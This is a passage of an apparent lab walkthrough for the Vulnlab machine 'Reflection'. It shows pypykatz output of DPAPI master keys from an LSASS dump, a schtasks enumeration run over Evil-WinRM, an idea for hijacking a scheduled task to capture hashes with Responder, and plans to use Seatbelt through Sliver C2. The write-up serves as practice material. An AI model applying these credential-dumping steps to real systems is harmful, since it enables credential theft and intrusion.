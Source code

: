 ```
└─$ pypykatz lsa minidump lsass.dmp
[...snip...]
== DPAPI [3e7]==
luid 999
key_guid d0486e64-ff99-4f38-8962-56d7767effbd
masterkey ca00bf269b1c1879ad1d664d6fadd9d4169b408e953d9acfece3476622fccc85c72b0e9879222b12a08ec6ee3f1c55d5b772d3d404c520c886413321af99caf0
sha1_masterkey 21a9c244e05002762c3b3f51845a58677a921e2e
== DPAPI [3e7]==
luid 999
key_guid e233b32e-4d94-4f33-8404-b89d08003375
masterkey 73694a6e64f4ff7947bdad1cc3fe941df4deb26b33060405eab4ce3225db174bd6e0045c1dd2d7b50403f60fc9ce01b908f1925c937f77be3fa85e24db2c6d68
sha1_masterkey 10134d260068b772beec3f5c7e8a6828b68d2023
== DPAPI [3e7]==
luid 999
key_guid ea60aa58-d914-4cb4-a993-ca09a343fc78
masterkey a91c09519bbf0b28ca662f8c0b8f680b5902f9e99438df44d6e2563ca5156259ece153cc041dce1dca518f633d299adb530d37686218a5d84e409a600468b20d
sha1_masterkey b4ac52b7d91b71f7010a9aed39e35ea92e8391b0
```

We'll take note of these DPAPI credential master keys for now.

Lastly, you can also try enumerating scheduled tasks. We can do so by dumping all tasks and their attributes using `schtasks` in our WinRM session. I learned to do during my time doing [Tengu](https://dan-feliciano.com/2024/06/05/tengu/), which is also a great machine to try for practice.

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> schtasks /query /v /fo LIST > tasklist.txt
```

We can pull this to our local Kali machine through Sliver to read it. I found an interesting task denoted as `\Backup` that seems to be owned by `Georgia.Price`.

![](/images/vulnlab/reflection-vl/g.png)

This task seems to be running as that user, which prompts us to attempt to see if we can edit it. Luckily enough we don't have to do that through PowerShell, as we have Administrator access to RDP so we can just do it through the Task Scheduler GUI. The only issue with this method is that we are required to enter `Georgia.Price`'s credentials in order to edit the scheduled task. If we had the ability to do this, we could easily MITM the `ls` request and point it to Responder, to which we could then try to crack the NetNTLMv2 hash that we'd receive.

# Dumping DPAPI Cached Credentials

So pulling this all together, it does not seem that any of the aforementioned methods are usable to receive `Georgia.Price`'s plaintext credentials. However, as I showed from before we do have access to a few master keys that may correspond to cached DPAPI credentials.

We can run [Seatbelt](https://github.com/GhostPack/Seatbelt) from Sliver C2, you could also compile it with Visual Studio and drop the executable to the filesystem. The Sliver armory contains `seatbelt` so we'll just do it from there.
